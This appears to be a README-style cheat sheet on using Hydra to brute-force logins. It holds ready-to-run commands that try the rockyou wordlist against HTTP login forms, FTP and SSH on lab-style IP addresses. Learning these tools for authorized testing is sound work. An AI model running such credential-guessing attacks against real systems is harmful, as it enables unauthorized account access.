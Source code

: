 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# hydra
[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra]
<hr/>

## install hydra in Linux
```sh
sudo dnf -y install hydra
```

## How hydra works
Using Hydra to Brute-Force Our First Login Page

Hydra is a fairly straight forward tool to use, but we have to first understand what it needs to work correctly. We’ll need to provide the following in order to break in:

- Login or Wordlist for Usernames
- Password or Wordlist for Passwords
- IP address or Hostname        
- HTTP Method (POST/GET)
- Directory/Path to the Login Page
- Request Body for Username/Password
- A Way to Identify Failed Attempts



> hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
> -L <users> -P <passwords>

```sh
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

```sh
hydra -L username.txt -P password.txt 192.168.1.37 ftp -s 21
```

hydra -l <username> -p <password> ssh://<ip>



hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$IP -o hydra.ssh.jake
hydra -l john -P /usr/share/wordlists/rockyou.txt $IP -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=john&password=^PASS^:Incorrect Username or Password" -o hydra.http.john
hydra -V -I -L usernames.txt -P log1.txt $IP  http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -o hydra.http

